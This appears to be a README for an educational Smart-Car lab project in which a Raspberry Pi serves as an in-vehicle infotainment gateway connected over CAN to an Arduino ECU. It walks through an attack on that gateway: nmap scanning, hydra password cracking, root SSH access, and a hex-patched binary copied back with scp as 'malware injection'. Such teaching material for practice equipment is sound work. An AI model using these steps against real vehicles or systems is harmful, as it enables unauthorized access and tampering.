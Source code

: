 # SmartCar
## Project goal
Implementation of Smart-Car CAN protocol & Utility data for IVI(In-Vehicle Infotainment) gateway attack using vulnerable port.

## Practice Equipments
- **RPi**: IVI Gateway 역할, 자동차 외부 네트워크의 Gateway
- **Arduino**: ECU 제어 역할, 자동차 내부 시스템의 ECU 제어
- **CAN shield**: RPi ↔ Arduino간 CAN 프로토콜 통신 가능
- **Sensors**: Motor, Text LCD, LCD Monitor
- **Android**: Android 앱, SmartCar 조종 인터페이스 제공
- **SmartCar.pdf**: SmartCar 실습 방법 문서

## Architecture
![architecture](https://user-images.githubusercontent.com/20378368/105503161-9c1a7300-5d09-11eb-871d-fbd33bc41c54.PNG)

## IVI Gateway Attack
![attack](https://user-images.githubusercontent.com/20378368/105503603-24991380-5d0a-11eb-8a7a-1387fc79391d.png)
### Get Target Binary
- **Step 1**: IVI Gateway Log 분석  
![step1](https://user-images.githubusercontent.com/20378368/105573332-1c8bb300-5da0-11eb-9b70-fdc469eea789.PNG)
```
- Android App ↔ IVI Gateway 통신 과정에서의 Log 분석
```
- **Step 2**: TCP Port Scanning
```
- Kali Linux 설치
- 설치 방법: https://hack-cracker.tistory.com/78
```
- **Step 3**: Password Cracking
```
- Android App ↔ IVI Gateway 통신 과정에서의 Port 분석
- nmap <IVI Gateway IP> -sS -sV -p <Port Number>
- ping <IVI Gateway IP> -c 5
- gzip -d /usr/share/wordlists/rockyou.txt.gz
- hydra -l <ID> -P <PW Dictionary File Path> -V -f -o <Output Path> <Service://IP:Port>
```
- **Step 4**: root 권한으로 SSH 원격 접속
```
- ssh -l <ID> -p <Port> <IVI Gateway IP>
- Step 3에서 찾아낸 root password로 접속
```
- **Step 5**: IVI Gateway의 네트워크 상태 확인
```
- netstat -tnlp
- file /proc/<PID 번호>/exe
```
- **Step 6**: SSH를 이용한 IVI Gateway 바이너리 취득
```
- scp root@<IVI Gateway IP>:<iviGateway 파일 경로> <Kali Linux에 저장될 경로>
```

### Malware Injection
- **Step 1**: Hex Editor를 이용한 바이너리 수정  
![step2](https://user-images.githubusercontent.com/20378368/105573522-8ce70400-5da1-11eb-9e8d-0f6ef08e5c32.PNG)
```
- 명령어 부분에 의미 없는 값으로 변조 → 해당 기능 동작 X
- 명령어 부분에 다른 명령어 값으로 변조 → 해당 기능 대신 다른 기능 실행됨
```
- **Step 2**: SSH를 이용한 Malware Injection
```
- scp <Kali Linux에 저장된 경로> root@<IVI Gateway IP>:<iviGateway 파일 경로>
```
- **Step 3**: IVI Gateway 다시 시작
```
- ssh root@<IVI Gateway IP>
- init 6
```
